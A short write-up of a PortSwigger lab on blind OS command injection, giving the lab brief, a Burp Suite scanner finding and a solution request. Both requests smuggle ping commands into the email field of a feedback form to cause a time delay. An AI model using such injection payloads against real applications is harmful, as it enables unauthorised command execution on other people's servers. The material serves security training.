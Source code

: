 # [Lab: Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

## Scan

- burpsuite scanner detected:
  - `OS command injection` (decoded body):

    ```http
    POST /feedback/submit HTTP/1.1

    csrf=QdYdqzSGm3lFDUxAZ5UCx32NoAg4cWE0&name=test&email=test@test.test|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1&subject=test@test.test&message=test
    ```

    - The application took 20959 milliseconds to respond to the request

  - `SQL injection`

## Solutions

```http
POST /feedback/submit HTTP/1.1

csrf=NeJ9rb2sc57zR9CPaaGRXfHBhVKYLMby&name=a&email=x||ping+-c+10+127.0.0.1||&subject=a&message=a
```
